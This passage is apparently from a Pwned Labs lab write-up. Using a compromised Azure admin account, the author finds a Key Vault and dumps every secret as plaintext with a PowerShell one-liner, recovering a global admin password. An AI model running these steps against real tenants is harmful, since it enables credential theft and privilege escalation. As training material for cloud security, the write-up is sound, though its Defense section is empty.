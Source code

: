 ```
```

The Microsoft Graph does not require MFA. The Microsoft Service Management API, on the other hand, provides much of the functionality of the Azure Portal, and allows us to interact with the Azure Resource Manager.
```
└─PS> Connect-AzAccount -AccountId "sunita_adm@megabigtech.com" -UseDeviceAuthentication
WARNING: You may need to login again after updating "EnableLoginByWam".
Please select the account you want to login with.

[Login to Azure] To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code HH5XVWP38 to authenticate.
Retrieving subscriptions for the selection...

Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship Default Directory

```

See like we have permission to access the Azure Key Vault named `MBT-Admins`
```
└─PS> Get-AzResource

Name              : MBT-Admins
ResourceGroupName : mbt-rg-9
ResourceType      : Microsoft.KeyVault/vaults
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-9/providers/Microsoft.KeyVault/vaults/MBT-Admins
Tags              : 

```
We retrieve all secrets and get the global admin password
```
└─PS> $VaultName = "MBT-Admins"
```
```
└─PS> Get-AzKeyVaultSecret -VaultName $VaultName | ForEach-Object { Get-AzKeyVaultSecret -VaultName $VaultName -Name $_.Name -asplaintext }
<REDACTED>
mbt-ga:<REDACTED>
```
# Attack path
Attack path visualization created by [Mathias Persson](https://www.linkedin.com/in/mathias-persson-582b60197/) for Pwned Labs

![](phished-for-initial-access-9.png)

# Defense
